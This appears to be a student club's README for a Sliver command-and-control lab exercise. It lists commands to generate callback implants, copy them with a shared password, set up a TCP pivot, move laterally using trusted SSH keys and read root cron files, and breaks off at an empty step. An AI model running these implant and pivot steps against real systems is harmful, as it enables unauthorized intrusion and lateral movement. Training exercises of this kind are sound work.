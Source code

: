 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')
3. Run Implant: `./[Implant Name] &`
4. View sessions: `sessions`
5. Use the Implant: `use [session number]`
6. Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`
7. Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`
8. Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`
9. Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`
10. Navigate to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`
11. 
